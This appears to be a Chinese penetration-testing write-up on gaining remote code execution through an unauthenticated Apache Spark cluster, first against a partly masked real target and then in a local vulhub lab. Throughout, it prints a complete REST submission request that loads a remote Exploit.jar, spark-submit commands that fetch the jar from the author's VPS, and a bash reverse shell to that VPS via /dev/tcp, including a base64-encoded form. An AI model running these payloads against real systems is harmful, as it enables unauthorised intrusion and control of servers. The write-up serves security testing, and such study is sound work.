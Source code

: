 ### 0x01 打点发现
团队一起做项目，同事发现一个Apache Spark未授权页面，我这边尝试打点，遂有此文
### 0x02 初次尝试
目标地址：  http://182.61.xxx.xxx:8080  
网上搜索针对Apache Spark的漏洞复现，用POC直接打，不出意外的攻击失败  
（这里记录一下：阿里云vps开启nc监听时，需要加个参数n，即nc -lnvvvp 101.200.xx.xx 8888，具体原因未知）  
### 0x03 本地调试
本地搭建环境，使用vulhub项目中的环境：https://github.com/vulhub/vulhub/tree/master/spark/unacc  
（这里记录一下：搭建环境时，发现端口被占用，netstat -antup查不到占用端口的pid和进程名，原因是权限不够，改用sudo netstat -antup可查到占用端口的pid和进程名，有时容易忽略使用sudo）  

环境搭建完之后，访问：[http://192.168.202.128:8080](http://192.168.202.128:8080)，能够成功访问，说明环境搭建成功  
访问端口6066，能够成功访问，而目标不能访问，说明目标关闭了端口6066  
当前漏洞的利用可通过2个端口：6066、7077（防守方容易忽略端口7077），且目标没关闭7077端口，又看到希望了  
首先测试本地6066端口的漏洞利用，发送如下burp请求  
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
漏洞利用失败  

思考了一下，可能是目标不能访问github，导致获取不到Exploit.jar，将Exploit.jar放置到自己的vps上，修改request后，重新发送请求，成功获得响应  
响应中包含driverId的值，用响应中driverId的值替换下面driverId的值，访问如下地址
```
http://192.168.202.128:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
```
页面会显示成功执行后的结果  

测试本地7077端口的漏洞利用
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar id
```
spark-submit下载链接：https://archive.apache.org/dist/spark/spark-2.4.3/spark-2.4.3-bin-hadoop2.7.tgz  
（这里记录一下：下载spark-submit时不要下载源码包，要下载二进制安装包，否则会报错）  
查看执行结果还是通过上述方式，发现成功执行了命令  

通过端口7077反弹shell  
直接执行
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar "bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1"
```
vps上并没有收到反弹shell  

思考了一下，可能是bash反弹shell中特殊字符的问题，对payload进行base64编码，可通过此网站：http://www.jackson-t.ca/runtime-exec-payloads.html  
编码后，发送请求，仍然没有收到反弹shell

继续排查，查看Exploit.jar的源代码会发现，原作者是对命令进行逗号分隔，导致base64编码后的命令被逗号分隔，如下
```
String[] cmds = args[0].split(",");

bash -c {echo,YmFzaCAtaSA+JiAvZGxxxxxxxxxxxxEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
```
知道问题了，我们可以将逗号分隔改为下划线分隔，并打包为jar包，现成的jar包已经打包好，位于当前目录下  
（如果仔细看上面的burp请求，会发现我已经在命令之间加了一个下划线）    

再次执行后成功接收到反弹shell  
![image](./pic/1.png)  

### 参考链接：  
https://www.cnblogs.com/mutudou/p/14685277.html  
https://medium.com/@Wh0ale/apache-spark-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E-ada9eb02af65  
https://github.com/vulhub/vulhub/tree/master/spark/unacc  
https://github.com/aRe00t/rce-over-spark/blob/master/Exploit.java  
